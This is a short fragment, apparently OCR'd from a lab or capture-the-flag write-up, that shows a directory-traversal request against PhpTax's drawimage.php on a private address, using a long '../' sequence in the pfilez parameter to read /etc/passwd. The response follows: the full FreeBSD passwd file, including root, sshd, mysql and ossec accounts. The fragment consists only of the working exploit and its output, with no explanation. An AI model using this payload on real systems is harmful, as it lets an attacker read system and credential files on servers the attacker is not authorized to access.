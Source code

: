 ```plain
http://192.168.1.53:8080/phptax/drawimage.php?pfilez=../../../../../../../../../../etc/passwd
```

```plain
root:*:0:0:Charlie &:/root:/bin/csh                                                                                    
toor:*:0:0:Bourne-again Superuser:/root:                                                                               
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin                                                    
operator:*:2:5:System &:/:/usr/sbin/nologin                                                                            
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin                                                             
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin                                                                          
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin                                                                        
games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin                                                            
news:*:8:8:News Subsystem:/:/usr/sbin/nologin                                                                          
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin                                                            
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin                                                          
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin                                       
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin                                             
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin                                                                          
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin                                                 
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin                                                       
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin                                                               
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico                                     
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin                                                            
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin                                                        
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin                                                     
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin                                                  
mysql:*:88:88:MySQL Daemon:/var/db/mysql:/usr/sbin/nologin                                                             
ossec:*:1001:1001:User &:/usr/local/ossec-hids:/sbin/nologin                                                           
ossecm:*:1002:1001:User &:/usr/local/ossec-hids:/sbin/nologin                                                          
ossecr:*:1003:1001:User &:/usr/local/ossec-hids:/sbin/nologin
```
